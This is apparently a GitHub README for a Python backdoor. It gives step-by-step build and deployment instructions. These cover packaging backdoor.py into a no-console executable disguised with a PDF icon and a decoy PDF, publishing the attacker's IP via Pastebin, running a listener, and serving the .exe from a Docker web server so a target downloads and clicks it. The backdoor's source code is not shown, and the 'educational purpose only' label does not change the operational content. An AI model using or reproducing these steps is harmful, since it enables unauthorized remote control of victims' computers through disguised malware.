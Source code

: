 # This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. Must have docker installed if using it

## Steps to use this backdoor :
1. clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```
   cd to that directory
2. find your pyinstaller path and run :
    ```powershell
    C:\Users\username\Appdata\wherever\your\pyinstaller\is\there\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
    ```
   The created backdoor must be in your "dist" folder in that directory
   
3. Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection

## Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker ( I know using Python webserver is more simpler but I am using something different )
steps:
1. cd to Docker directory
then run :
   ```
   docker build -t Dcoker .
   ```
2. Run the container
    ```
    docker run Dcoker
    ```
and then make the target go to <your_IP>:8080 in broser to download the ready-made .exe
